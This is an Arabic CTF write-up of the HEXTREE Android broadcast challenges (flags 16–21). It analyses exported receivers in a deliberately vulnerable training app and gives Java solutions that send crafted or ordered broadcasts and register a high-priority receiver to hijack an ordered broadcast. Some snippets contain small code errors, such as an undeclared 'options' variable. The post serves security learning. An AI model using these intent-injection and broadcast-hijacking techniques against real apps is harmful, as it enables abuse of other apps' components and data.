


+++
date = '2025-07-14T00:55:36+03:00'
draft = false
title = 'HEX Tree Broadcast تحديات'
tags = ['Ctf', 'Andorid', 'broadcast', 'hextree']
+++

### Flag 16

#### تحليل الكود

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag16Activity"
    android:exported="false"/>
</activity>
<receiver
     android:name="io.hextree.attacksurface.receivers.Flag16Receiver"
     android:enabled="true"
	 android:exported="true"/>
```

بداية غير مبشرة >: الـ activity مش exported يعني منقدرش نستدعيه و نتعامل معاه بشكل مباشر، بس الحمد لله في receiver معمول.

Receiver:

```java
    public static String FlagSecret = "give-flag-16";
    
    public void onReceive(Context context, Intent intent) {
        if (intent.getStringExtra("flag").equals(FlagSecret)) {
            success(context, FlagSecret);
        }
    }
```

هنا الـ broadcast اللي هنبعته لازم يكون فيه `flag` بالقيمة `give-flag-16` عشان الـ method `success` تشتغل.

#### الحل

```java
Intent intent = new Intent();
intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag16Receiver");
intent.putExtra("flag","give-flag-16");
sendBroadcast(intent);
```

وأيوة بس كدة.



### Flag 17

#### تحليل الكود

```java
    public static String FlagSecret = "give-flag-17";

    public void onReceive(Context context, Intent intent) {
        Log.i("Flag17Receiver.onReceive", Utils.dumpIntent(context, intent));
        if (isOrderedBroadcast()) {
            if (intent.getStringExtra("flag").equals(FlagSecret)) {
                success(context, FlagSecret);
                return;
            }
            Bundle bundle = new Bundle();
            bundle.putBoolean("success", false);
            setResult(0, "Flag 17 Completed", bundle);
        }
    }
```

الموضوع زي اللي فات بس محتاجين نبعته كـ ordered broadcast ؟

##### Non-ordered vs. Ordered Broadcasts

في الـ non-ordered mode، الـ broadcasts بتتبعت لكل الـ receivers المهتمة "في نفس الوقت". يعني مافيش receiver يقدر يتدخل أو يمنع غيره من الشغل. مثال على كده الـ [ACTION_BATTERY_LOW](http://developer.android.com/reference/android/content/Intent.html#ACTION_BATTERY_LOW).

في الـ ordered mode، الـ broadcasts بتتبعت لكل receiver بالترتيب (حسب الـ [android:priority](http://developer.android.com/guide/topics/manifest/intent-filter-element.html#priority) attribute للـ [intent-filter](http://developer.android.com/guide/topics/manifest/intent-filter-element.html) element في الـ manifest file) وممكن receiver يوقف الـ broadcast فالـ receivers اللي أولويتها أقل مش هتاخده (مش هتشتغل خالص). مثال على النوع ده الـ [ACTION_NEW_OUTGOING_CALL](http://developer.android.com/reference/android/content/Intent.html#ACTION_NEW_OUTGOING_CALL).

#### الحل

```java
Intent intent = new Intent();  
intent.putExtra("flag","give-flag-17");  
intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag17Receiver"); 
sendOrderedBroadcast(intent, null);
```

### Flag 18

#### تحليل الكود

```java
   public static String SECRET_FLAG = "giving-out-flags";
 
   public void onCreate(Bundle bundle) {
        Intent intent = new Intent("io.hextree.broadcast.FREE_FLAG");
        intent.putExtra("flag", this.f.appendLog(this.flag));
        intent.addFlags(8);
        sendOrderedBroadcast(intent, null, new BroadcastReceiver() { 
            @Override // android.content.BroadcastReceiver
            public void onReceive(Context context, Intent intent2) {
                String resultData = getResultData();
                Bundle resultExtras = getResultExtras(false);
                int resultCode = getResultCode();
                Log.i("Flag18Activity.BroadcastReceiver", "resultData " + resultData);
                Log.i("Flag18Activity.BroadcastReceiver", "resultExtras " + resultExtras);
                Log.i("Flag18Activity.BroadcastReceiver", "resultCode " + resultCode);
                if (resultCode != 0) {
                    Utils.showIntentDialog(context, "BroadcastReceiver.onReceive", intent2);
                    Flag18Activity flag18Activity = Flag18Activity.this;
                    flag18Activity.success(flag18Activity);
                }
            }
        }, null, 0, null, null);
```

الـ activity ده هيبعت ordered broadcast بالـ action `"io.hextree.broadcast.FREE_FLAG"` ويستنى رد، ولما يجيله النتيجة، رقم اسمه `resultCode` بيتشيك لو مش صفر، لو صح ف هنجيب العلم

#### الحل

يعني محتاجين نعمل receiver بالـ  filter الصح ونعمل `setResultCode` يا إما ok أو نحط رقم.

```java
BroadcastReceiver hijacker = new BroadcastReceiver() {  
    @Override  
    public void onReceive(Context context, Intent intent) {  
        setResultCode(Activity.RESULT_OK);   
        setResultData("Intercepted!");
    }  
};
IntentFilter filter = new IntentFilter("io.hextree.broadcast.FREE_FLAG");  
filter.setPriority(999); // عشان نكون أول واحد ياخذ البث لو فيه تطبيقات ثانية
registerReceiver(hijacker, filter, null, null);
```

أو نعمل receiver في سطر واحد بس:

```java
registerReceiver(hijacker, new IntentFilter("io.hextree.broadcast.FREE_FLAG"));
```

### Flag 19

#### تحليل الكود

```java
    public void onReceive(Context context, Intent intent) {
        Bundle bundleExtra;
        String action = intent.getAction();
        if (action == null || !action.contains("APPWIDGET_UPDATE") || (bundleExtra = intent.getBundleExtra("appWidgetOptions")) == null) {
            return;
        }
        int i = bundleExtra.getInt("appWidgetMaxHeight", -1);
        int i2 = bundleExtra.getInt("appWidgetMinHeight", -1);
        if (i == 1094795585 && i2 == 322376503) {
            success(context);
        }
    }
```

هنا الـ widget بياخد intent من broadcast ويشيك لو في action `APPWIDGET_UPDATE` ومعاه Extra data: i = `1094795585` & i2 = `322376503`

#### الحل

يعني هنعمل متغير من نوع `Bundle`  ونديله الـ data ونحط الـ action الصح:

```java
Intent intent  = new Intent();  
intent.setComponent(new ComponentName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag19Widget"  
));  
Bundle bundle = new Bundle();  
options.putInt("appWidgetMaxHeight", 1094795585);  
options.putInt("appWidgetMinHeight", 322376503);  
  
intent.putExtra("appWidgetOptions", bundle);  
intent.setAction("APPWIDGET_UPDATE");  
sendBroadcast(intent);
```

### Flag 20

#### تحليل الكود

```java
  public static String GET_FLAG = "io.hextree.broadcast.GET_FLAG";
  public void onCreate(Bundle bundle) {
		
		if (intent == null) { return; }
        Intent intent = getIntent();
        String action = intent.getAction();
        if (action != null && action.equals(GET_FLAG)) {
            success(this);
            return;
        }
        Flag20Receiver flag20Receiver = new Flag20Receiver();
        IntentFilter intentFilter = new IntentFilter(GET_FLAG);
        registerReceiver(flag20Receiver, intentFilter);
    }
```

ده بيسجل receiver للـ  `io.hextree.broadcast.GET_FLAG`  action ولما يجيله intent مش فاضي بالـ action ده هنقدر نجيب الـ Flag.

#### الحل

```java
Intent intent = new Intent();  
intent.setAction("io.hextree.broadcast.GET_FLAG");  
intent.putExtra("give-flag", true);   // أي data
sendBroadcast(intent);
```

### Flag 21

#### تحليل الكود

جزء الـ Notification:

```java
// إنشاء قناة إشعارات
private void createNotificationChannel() {
	// الإشعارات لازم تكون لها قناة زي قنوات التلفزيون
    NotificationChannel notificationChannel = new NotificationChannel(
        "CHANNEL_ID", // معرف القناة
        "Hextree Notifications", // اسم يشوفه المستخدم
        NotificationManager.IMPORTANCE_DEFAULT // مستوى الأهمية (يأثر على الصوت والظهور)
    );
    notificationChannel.setDescription("إشعارات تتعلق بخصائص الأمان.");
    
    // إنشاء القناة فعليًا
    NotificationManager manager = getSystemService(NotificationManager.class);
    manager.createNotificationChannel(notificationChannel);
}

// في onCreate():
// إنشاء وإظهار إشعار مع زر أكشن
createNotificationChannel();

// تحضير إنتنت البث (زي تحضير رسالة للإرسال)
Intent intent = new Intent(GIVE_FLAG);
intent.putExtra("flag", this.f.appendLog(this.flag)); // إضافة بيانات إضافية (العلم)

// لف الإنتنت في PendingIntent (يسمح بالتنفيذ في الخلفية)
PendingIntent pendingIntent = PendingIntent.getBroadcast(
    this, 
    0, // كود الطلب (ما يستخدم هنا)
    intent, 
    PendingIntent.FLAG_IMMUTABLE // علم أمان (مطلوب لأندرويد 12+)
);

// بناء الإشعار
NotificationCompat.Builder notification = new NotificationCompat.Builder(this, "CHANNEL_ID")
    .setSmallIcon(R.drawable.hextree_logo) // أيقونة صغيرة في شريط الحالة
    .setContentTitle(this.name) // عنوان الإشعار
    .setContentText("Reverse engineer classes Flag21Activity") // الوصف
    .setPriority(NotificationCompat.PRIORITY_DEFAULT) // مستوى الأولوية
    .setAutoCancel(true) // يختفي لما نضغط عليه
    .addAction( // إضافة زر للإشعار
        R.drawable.hextree_logo, // أيقونة الزر
        "Give Flag", // نص الزر
        pendingIntent // إيش يصير لما نضغط (يرسل بث)
    );

// شيك على الإذن وإظهار الإشعار
if (ActivityCompat.checkSelfPermission(this, "android.permission.POST_NOTIFICATIONS") != 0) {
    NotificationManagerCompat.from(this).notify(1, notification.build());
    Toast.makeText(this, "شيك على الإشعارات بتاعتك", 0).show();
}
```

الـ notification فيها زرار لما نضغط عليه بيعمل broadcast. الـ broadcast ده فيه "flag" مخفي و الـ receiver (الجزء التاني) بيمسك الـ broadcast ده ويشتغل عليه. Android 13 و ما فوق محتاج إذن صريح لـ notifications عشان تشتغل.

جزء الـ Receiver:

```java
//Flag21Activity.class
	// Broadcast Receiver implementation
private BroadcastReceiver broadcastReceiver = new BroadcastReceiver() {
    @Override
    public void onReceive(Context context, Intent intent) {
        // Get broadcast results
        String resultData = getResultData();
        Bundle resultExtras = getResultExtras(false);
        int resultCode = getResultCode();
        
        // Log the results
        Log.i("Flag18Activity.BroadcastReceiver", "resultData " + resultData);
        Log.i("Flag18Activity.BroadcastReceiver", "resultExtras " + resultExtras);
        Log.i("Flag18Activity.BroadcastReceiver", "resultCode " + resultCode);
        
        // Show toast and handle success
        Toast.makeText(context, "Check the broadcast intent for the flag", 0).show();
        Flag21Activity flag21Activity = Flag21Activity.this;
        flag21Activity.success(null, flag21Activity);
    }
};

// In onCreate():
// Register the broadcast receiver
this.f.addTag(GIVE_FLAG);
IntentFilter intentFilter = new IntentFilter(GIVE_FLAG);
registerReceiver(broadcastReceiver, intentFilter);
```

الـ receiver مستني broadcast بالـ action `GIVE_FLAG`. لما يوصله، بيعمل log للـ data ويظهر Toast وبعدين الـ  `success` بتشتغل.

#### الحل

بعد ما نضغط على الـ activity عشان ننشئ الـ notification، عملت نفس اللي الزرار في الـ notification المفروض يبعته وخلاص:

```java
Intent intent = new Intent();  
intent.setAction("io.hextree.broadcast.GIVE_FLAG");  
sendBroadcast(intent);
```

